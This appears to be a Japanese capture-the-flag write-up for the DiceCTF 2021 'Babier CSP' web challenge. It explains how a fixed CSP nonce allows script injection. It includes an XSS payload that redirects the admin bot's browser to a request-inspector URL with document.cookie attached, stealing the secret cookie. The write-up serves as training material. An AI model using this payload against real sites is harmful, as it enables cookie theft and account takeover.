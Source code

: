 # web/Babier CSP

## 問題
[babier-csp.dicec.tf](babier-csp.dicec.tf)  
[Admin Bot](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=babier-csp)  

The admin will set a cookie `secret` equal to `config.secret` in [index.js](https://github.com/raster0x2a/CTF-writeup/blob/master/DiceCTF2021/index.js).

## 解説
まず [babier-csp.dicec.tf](babier-csp.dicec.tf) は name に渡された文字列をそのまま表示させています。そのため XSS が期待できますが、 `<script>alert('ok')</script>` などを直接入れても以下のように怒られます。  

```
Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'nonce-LRGWAXOY98Es0zz0QOVmag=='". Either the 'unsafe-inline' keyword, a hash ('sha256-GhSELej6D4No8Cu4c6BlA7SQooAXc4iM9HQ5s9uW7Gw='), or a nonce ('nonce-...') is required to enable inline execution.
```

script タグの nonce 属性には、CSP(Content Security Policy) によって JavaScript の実行を制限し、XSS などを防ぐ機能があります。しかし nonce の値が予測できてしまえば意味をなさないため、本来はリクエストごとにランダムな文字列を生成しなければならないのですが、このページでは `LRGWAXOY98Es0zz0QOVmag==` で固定されています。そのため `<script nonce=LRGWAXOY98Es0zz0QOVmag==>hoge</script>` という形式で怒られずに任意のスクリプトをインジェクションできます。

次に [Admin Bot](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=babier-csp) では、 URL を入力して submit すると入力した URL に Admin がアクセスしてくれます。Admin の cookie を得ることが第一の目的なので、 [babier-csp.dicec.tf](babier-csp.dicec.tf) にアクセスさせてから、cookie をクエリに含めてリクエスト内容を確認できる URL に遷移させることを考えます。
私はリクエストを確認するために [Request Inspector](https://requestinspector.com/) というサイトを利用しました。
具体的には以下の URL を入力することで cookie が確認できました。  
``https://babier-csp.dicec.tf/?name=<script nonce=LRGWAXOY98Es0zz0QOVmag==>location.href=`[Request Inspectorで発行したURL]?${document.cookie}`</script>``

`index.js`を見てみると
```js
app.use('/' + SECRET, express.static(__dirname + "/secret"));
```
とあるため、 `https://babier-csp.dicec.tf/[cookieのsecretの値]` にアクセスしてみると、ソースのコメントにフラグが書いてあります。